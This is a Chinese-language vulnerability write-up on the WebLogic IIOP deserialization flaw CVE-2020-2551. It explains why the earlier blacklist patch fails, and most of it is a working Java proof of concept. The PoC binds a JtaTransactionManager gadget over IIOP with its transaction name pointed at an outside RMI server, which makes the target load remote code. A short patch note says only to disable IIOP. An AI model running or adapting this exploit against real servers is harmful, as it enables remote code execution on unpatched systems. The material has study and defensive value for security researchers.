

- [Weblogic IIOP反序列化(CVE-2020-2551)](#weblogic-iiop反序列化cve-2020-2551)
  - [漏洞原理](#漏洞原理)
    - [JtaTransactionManager](#jtatransactionmanager)
    - [POC](#poc)
  - [补丁](#补丁)
  - [参考](#参考)

# Weblogic IIOP反序列化(CVE-2020-2551)
## 漏洞原理
### JtaTransactionManager 
在CVE-2020-2551中利用的是JtaTransactionManager类,其原理和CVE-2018-3191是一样的,只不过这次使用的是IIOP协议,因为在CVE-2018-3191中的补丁中是在resolveClass添加黑名单,
其中是会读取类的父类进行判断的,所以黑名单中的类是JtaTransactionManager的父类,但在IIOP中也是使用的黑名单,但不是通过esolveClass进行过滤,并不会读取类的父类进行校验,导致可以直接使用JtaTransactionManager再次利用.
### POC 
```java
import com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager;
import ysoserial.payloads.util.Gadgets;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.util.Hashtable;
import java.rmi.Remote;
public class T3 {
    public static void main(String[] args) throws Exception {
        Hashtable<String, String> env = new Hashtable<>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "weblogic.jndi.WLInitialContextFactory");
        env.put("java.naming.provider.url", "iiop://127.0.0.1:7001");
        InitialContext initialContext = new InitialContext(env);
        JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
        jtaTransactionManager.setUserTransactionName("rmi://192.168.65.2:1099/bzfdiv");
        Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", jtaTransactionManager), Remote.class);
        initialContext.rebind("hello", remote);

    }
}

```
调用堆栈如下  
  
## 补丁
封禁IIOP协议
## 参考
https://xz.aliyun.com/t/7422#toc-6